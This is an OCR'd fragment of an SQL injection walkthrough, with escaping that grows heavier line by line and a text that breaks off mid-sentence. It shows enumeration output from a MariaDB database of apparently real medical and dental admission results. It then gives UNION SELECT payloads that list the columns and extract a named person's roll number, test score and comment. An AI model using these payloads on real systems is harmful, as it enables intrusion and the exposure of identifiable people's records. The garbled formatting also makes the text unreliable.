 

 	**output:**

 	\*\*database - resu\\\_mbbs\\\_result\*\*

 	\\\*\\\*version  - 10.5.12-MariaDB\\\*\\\*

&nbsp;	\\\\\\\*\\\\\\\*user     - resu\\\\\\\\\\\\\\\_mbbsdb\\\\\\\\\\\\\\\_user@localhost\\\\\\\*\\\\\\\*

		\\\\\\\*\\\\\\\*tables   - iht\\\\\\\\\\\\\\\_mats\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_21\\\\\\\\\\\\\\\_22,iht\\\\\\\\\\\\\\\_mats\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_23\\\\\\\\\\\\\\\_24,prgpwn,iht\\\\\\\\\\\\\\\_mats\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_22\\\\\\\\\\\\\\\_23,mbbs\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_23\\\\\\\\\\\\\\\_24,bds\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_23\\\\\\\\\\\\\\\_24,bds\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_24\\\\\\\\\\\\\\\_25,bds\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_20\\\\\\\\\\\\\\\_21,mbbs\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_18\\\\\\\\\\\\\\\_19,mbbs\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_19\\\\\\\\\\\\\\\_20,mbbs\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_19\\\\\\\\\\\\\\\_20\\\\\\\\\\\\\\\_old,mbbs\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_20\\\\\\\\\\\\\\\_21,mbbs\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_21\\\\\\\\\\\\\\\_22,bds\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_21\\\\\\\\\\\\\\\_22,iht\\\\\\\\\\\\\\\_mats\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_23\\\\\\\\\\\\\\\_24\\\\\\\\\\\\\\\_bbbb,bsc\\\\\\\\\\\\\\\_iht\\\\\\\\\\\\\\\_mats\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_23\\\\\\\\\\\\\\\_24,iht\\\\\\\\\\\\\\\_mats\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_24\\\\\\\\\\\\\\\_25,mbbs\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_24\\\\\\\\\\\\\\\_25,homeo\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_21\\\\\\\\\\\\\\\_22,mbbs\\\\\\\\\\\\\\\_result\\\\\\\\\\\\\\\_22\\\\\\\\\\\\\\\_23\\\\\\\*\\\\\\\*








**=>** -1' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,(select group\_concat(column\_name) from information\_schema.columns where table\_name='mbbs\_result\_20\_21') -- #



 	**columns :** auto\_id,user\_id\_new,roll,name,test\_score,merit\_score,merit\_position,college\_code,college,status,comment



=> -1' union select 1,2,(select roll from mbbs\_result\_20\_21 where name='Rakesh Debnath'),null,(select name from mbbs\_result\_20\_21 where name='Rakesh Debnath'),null,null,null,null,(select test\_score from mbbs\_result\_20\_21 where name='Rakesh Debnath'),null,12,(select comment from mbbs\_result\_20\_21 where name='Rakesh Debnath'), null -- #





















Databases that do support **information\_schema:**
